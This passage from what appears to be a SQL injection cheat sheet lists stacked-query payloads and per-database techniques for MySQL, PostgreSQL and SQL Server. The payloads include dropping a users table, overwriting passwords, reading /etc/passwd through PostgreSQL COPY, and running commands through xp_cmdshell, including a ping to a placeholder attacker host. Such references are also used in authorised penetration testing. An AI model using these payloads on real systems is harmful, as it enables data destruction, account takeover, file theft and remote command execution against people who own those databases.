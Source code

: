 ### Stacked Queries
Executing multiple SQL statements in one query. Often disabled or restricted.
* `'; SELECT pg_sleep(5) -- ` (PostgreSQL)
* `'; EXEC master..xp_cmdshell 'ping attacker.com' -- ` (SQL Server, if permissions allow)
* `'; DROP TABLE users -- ` (Highly destructive, use with extreme caution in test environments ONLY)

**Example:**
`page.php?id=1'; UPDATE users SET password='hacked' WHERE id=1 -- `

---

## Database-Specific Techniques

### MySQL (`>= 5.0`)
* **Version:** `VERSION()`, `@@VERSION`
* **Current User:** `USER()`, `CURRENT_USER()`
* **Current Database:** `DATABASE()`, `SCHEMA()`
* **Comments:** `#`, `-- ` (space after --), `/* */`
* **Concatenation:** `CONCAT(str1, str2)`, `CONCAT_WS('-', str1, str2)`
* **Information Schema:** `information_schema.schemata`, `information_schema.tables`, `information_schema.columns`
* **Limit:** `LIMIT offset, count`
* **Time Delay:** `SLEEP(seconds)`
* **Casting:** `CAST(expr AS type)`, `CONVERT(expr, type)`

### PostgreSQL (`>= 8.0`)
* **Version:** `VERSION()`
* **Current User:** `CURRENT_USER`, `SESSION_USER`, `USER`
* **Current Database:** `CURRENT_DATABASE()`
* **Comments:** `-- `, `/* */`
* **Concatenation:** `||`, `CONCAT(str1, str2)`
* **Information Schema:** `information_schema.schemata`, `information_schema.tables`, `information_schema.columns`
* **Casting:** `CAST(expr AS type)` or `expr::type`
* **Limit:** `LIMIT count OFFSET offset`
* **Time Delay:** `pg_sleep(seconds)`
* **Reading Files (if superuser):** `COPY (SELECT 'content') TO '/tmp/file'` (writing), `CREATE TABLE temp(t TEXT); COPY temp FROM '/etc/passwd'; SELECT * FROM temp;`

### Microsoft SQL Server (`>= 2005`)
* **Version:** `@@VERSION`
* **Current User:** `SUSER_SNAME()`, `USER_NAME()`, `SYSTEM_USER`
* **Current Database:** `DB_NAME()`
* **Comments:** `-- `, `/* */`
* **Concatenation:** `+`
* **Information Schema:** `INFORMATION_SCHEMA.TABLES`, `INFORMATION_SCHEMA.COLUMNS`
* **System Tables:** `sys.databases`, `sys.objects`, `sys.columns`
* **Limit (Rows):** `SELECT TOP N ...` (SQL Server 2000+), `OFFSET M ROWS FETCH NEXT N ROWS ONLY` (SQL Server 2012+)
* **Time Delay:** `WAITFOR DELAY '0:0:seconds'`
* **Stacked Queries:** `;`
* **Command Execution (if permissions allow):** `EXEC master..xp_cmdshell 'command'`
